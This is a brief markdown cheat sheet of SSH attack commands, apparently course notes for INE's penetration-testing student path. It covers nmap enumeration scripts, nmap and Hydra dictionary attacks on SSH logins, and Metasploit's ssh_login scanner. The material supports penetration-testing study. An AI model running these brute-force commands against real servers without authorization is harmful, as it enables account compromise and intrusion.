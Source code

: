 # SSH

## nmap
Enumerate algorithms
```
nmap [TARGET-IP] -p 22 --script ssh2-enum-algo
```
Get ssh-rsa key
```
nmap [TARGET-IP] -p 22 --script ssh2-hostkey --script-args ssh_hostkey=full
```
Get authentication methods
```
nmap [TARGET-IP] -p 22 --script ssh2-auth-methods --script-args="ssh.user=[USERNAME]"
```
SSH dictionary attack
```
nmap [TARGET-IP] -p 22 --script ssh-brute --script-args userdb=[WORDLIST-PATH]
```

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] ssh
```

## Metasploit
```
msfconsole
```
```
use auxiliary/scanner/ssh/ssh_login
```
```
show options
```
Set options
```
exploit
```


### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
